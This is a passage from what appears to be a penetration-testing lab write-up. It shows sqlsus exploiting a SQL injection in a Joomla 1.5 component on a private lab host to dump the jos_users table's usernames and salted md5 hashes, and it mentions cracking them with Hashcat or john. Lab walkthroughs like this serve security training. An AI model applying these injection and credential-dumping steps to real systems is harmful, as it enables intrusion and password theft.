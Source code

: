 ```
root@bt:/pentest/database/sqlsus# cat hackr2.conf | grep 192.168.1.75
our $url_start = "http://192.168.1.75:666/index.php?option=com_amblog&view=amblog&catid=-1";
```

Looking up the Joomla 1.5 [database schema](http://docs.joomla.org/Detailed_list_of_fields), we find the users can be found in jos_users:

```
sqlsus> get columns jos_users
[+] Getting columns names for joomla.jos_users
+----------------------+                                              
| Columns in jos_users |
+----------------------+
| id                   |
| name                 |
| username             |
| email                |
| password             |
| usertype             |
| block                |
| sendemail            |
| gid                  |
| registerdate         |
| lastvisitdate        |
| activation           |
| params               |
+----------------------+
13 rows in set 

sqlsus> select id,username,password,usertype from jos_users
+----+---------------+-------------------------------------------------------------------+---------------------+
| id | username      | password                                                          | usertype            |
+----+---------------+-------------------------------------------------------------------+---------------------+
| 62 | Administrator | 08f43b7f40fb0d56f6a8fb0271ec4710:n9RMVci9nqTUog3GjVTNP7IuOrPayqAl | Super Administrator |
| 63 | JSmith        | 992396d7fc19fd76393f359cb294e300:70NFLkBrApLamH9VNGjlViJLlJsB60KF | Registered          |
| 64 | BTallor       | abe1ae513c16f2a021329cc109071705:FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy | Registered          |
+----+---------------+-------------------------------------------------------------------+---------------------+
3 rows in set (2 hits)

sqlsus> 
```

These passwords are stored as md5(password + salt), so we need to load them up into Hashcat or john and let them run around.  As a note, I modified the hashes a bit to be in the form `username:md5$salt`

